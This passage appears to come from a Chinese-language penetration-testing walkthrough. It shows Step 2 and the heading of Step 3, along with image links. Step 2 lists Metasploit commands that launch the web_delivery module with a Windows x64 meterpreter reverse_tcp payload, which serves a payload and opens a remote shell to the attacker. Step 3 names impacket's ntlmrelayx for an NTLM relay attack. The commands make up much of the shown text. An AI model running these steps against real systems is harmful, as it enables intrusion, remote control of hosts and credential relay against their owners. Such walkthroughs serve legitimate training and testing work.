 [![](assets/1701222524-9ddf2ec01c3c56bed91183eda9193a37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144811-18e6d4f8-8dba-1.png)  
Step 2：启动MSF的exploit/multi/script/web\_delivery模块

```plain
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
run
```

[![](assets/1701222524-e479f9ed95d1f026099de749deb3c196.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144838-291949be-8dba-1.png)  
Step 3：启动impacket的ntlmrelayx模块
